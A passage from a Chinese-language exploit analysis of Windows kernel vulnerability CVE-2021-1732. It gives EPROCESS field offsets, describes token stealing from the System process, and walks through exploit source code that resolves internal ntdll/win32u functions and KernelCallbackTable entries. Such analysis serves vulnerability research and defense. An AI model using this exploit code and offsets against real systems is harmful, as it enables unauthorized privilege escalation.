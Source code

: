 那么泄露当前进程 EPROCESS 地址的方式就不止一种了：

1. 通过三次任意地址读，达到 **(__int64 **)(*(__int64 *)(spMenu + 0x18) + 0x100) 的效果（EXP 使用）

2. 通过四次任意地址读，达到 *(__int64 *)(**(__int64 **)(*(__int64 *)(spMenu + 0x50) + 0x10) + 0x220) 的效果（攻击样本使用）

*   3.6.4 提升进程权限
    

知道当前进程的 EPROCESS 地址后，遍历 EPROCESS->ActiveProcessLinks 链表 [18]，找到 pid 为 4 的进程（System 进程），将其 Token 复制到当前的攻击进程，即可完成提权。

下面是将用到的 EPROCESS 字段及其偏移量：

```
pEPROCESS
    0x2E0 UniqueProcessId            // pid
    0x2E8 ActiveProcessLinks.Flink    // 该字段指向下一个 EPROCESS 结构体的 ActiveProcessLinks（双向链表）
    0x358 Token                        // 令牌
```

```
UNREFERENCED_PARAMETER(hPrevInstance);    // 告诉编译器，已经使用了参数，不必警告
UNREFERENCED_PARAMETER(lpCmdLine);        // 应该是创建项目时的模板代码

AllocConsole();        // 创建一个控制台
FILE* tempFile = nullptr;
freopen_s(&tempFile, "conin$", "r+t", stdin);        // 重定向程序的标准输入到控制台
freopen_s(&tempFile, "conout$", "w+t", stdout);        // 重定向程序的标准输出到控制台
```

**04 EXP 阅读**

这个部分我将按照 EXP 的程序执行流，把 03 部分 完整地串起来，各个技术点的实施细节将在这里展露无遗。  

**4.1 准备工作**

169 – 176 行（WinMain 入口）为本窗口程序创建了一个控制台，并将程序的标准输入、输出重定向到这个控制台，这就是为什么运行 EXP 时会有个命令行界面：  

```
typedef void(WINAPI* FRtlGetNtVersionNumbers)(DWORD*, DWORD*, DWORD*);
DWORD dwMajorVer, dwMinorVer, dwBuildNumber = 0;
FRtlGetNtVersionNumbers fRtlGetNtVersionNumbers = (FRtlGetNtVersionNumbers)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlGetNtVersionNumbers");
fRtlGetNtVersionNumbers(&dwMajorVer, &dwMinorVer, &dwBuildNumber);    // 获得版本信息
dwBuildNumber &= 0x0ffff;

std::cout << "Example CVE-2021-1732 Exp working in windows 10 1809(17763).\n";
std::cout << "Current system version:\n";
std::cout << "  MajorVer:" << dwMajorVer << " MinorVer:" << dwMinorVer << " BuildNumber:" << dwBuildNumber << std::endl;    // 输出版本信息到控制台
system("pause");        // 在这里 pause 方便为后面代码的调试下断点
```

178 – 187 行通过未公开的 ntdll!RtlGetNtVersionNumbers 函数获得 Windows 版本信息（主次版本及 OS 内部版本号），并输出到控制台：

```
g_fNtUserConsoleControl = (FNtUserConsoleControl)GetProcAddress(GetModuleHandle(L"win32u.dll"), "NtUserConsoleControl");    // win32u!NtUserConsoleControl（其实用 user32!ConsoleControl 效果一样）
g_fFNtCallbackReturn = (FNtCallbackReturn)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCallbackReturn");        // ntdll!NtCallbackReturn
// ntdll!RtlAllocateHeap
g_fRtlAllocateHeap = (RtlAllocateHeap)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlAllocateHeap");
// gs:[0x60] 指向进程 PEB，PEB 结构体偏移 0x58 为 KernelCallbackTable
ULONG_PTR pKernelCallbackTable = (ULONG_PTR) *(ULONG_PTR*)(__readgsqword(0x60) + 0x58);
g_fxxxClientAllocWindowClassExtraBytes = (FxxxClientAllocWindowClassExtraBytes)*(ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3D8);    // KernelCallbackTable 第 123 项为 user32!_xxxClientAllocWindowClassExtraBytes
g_fxxxClientFreeWindowClassExtraBytes = (FxxxClientFreeWindowClassExtraBytes) * (ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3E0);    // 第 124 项为 user32!_xxxClientFreeWindowClassExtraBytes（调试用）
```